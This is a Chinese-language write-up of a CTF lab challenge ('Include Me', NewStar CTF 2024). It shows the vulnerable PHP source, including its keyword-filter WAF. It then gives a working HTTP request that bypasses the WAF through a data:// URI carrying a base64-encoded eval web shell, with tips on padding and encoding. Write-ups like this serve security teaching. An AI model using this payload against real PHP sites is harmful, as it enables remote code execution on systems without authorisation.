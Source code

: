 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# Include Me

打开题目 5s 后会自动跳转搜索 PHP 伪协议

![跳转结果](/assets/images/wp/2024/week3/include-me_1.png)

要防止跳转，使用 GET 传入 `iknow` 即可

题目源码如下

```php
<?php
highlight_file(__FILE__);
function waf() {
    if(preg_match("/<|\?|php|>|echo|filter|flag|system|file|%|&|=|`|eval/i",$_GET['me'])){
        die("兄弟你别包");
    };
}
if (isset($_GET['phpinfo'])) {
    phpinfo();
}

// 兄弟你知道了吗？
if (!isset($_GET['iknow'])) {
    header("Refresh: 5;url=https://cn.bing.com/search?q=php%E4%BC%AA%E5%8D%8F%E8%AE%AE");
}

waf();
include $_GET['me'];
echo "兄弟你好香";
?>
```

我们使用 GET 传入 `phpinfo` 后可验证远程文件包含漏洞的必要条件满足

![phpinfo](/assets/images/wp/2024/week3/include-me_2.png)

接着就是绕 waf，这里使用的是 data 协议加 base64 加密

```http
GET /?iknow=1&me=data:text/plain;base64,PD9waHAgQGV2YWwoJF9QT1NUWzBdKT8+%2B HTTP/1.1
```

`<?php @eval($_POST[0])?>` 的 Base64 加密结果为 `PD9waHAgQGV2YWwoJF9QT1NUWzBdKT8+`，加号作转义

::: warning 注意

这里有几点需要注意：

- Base64 加密后的字符串不能带有 `=`，因为会被 waf，这时直接删掉结尾等号即可，后者在明文后面多加一些空格以使加密结果不带等号
- 若密文最后是 `+` 的话，我们在 GET 传参必须将其编码为 `%2B`，不然 `+` 会被视作空格

:::
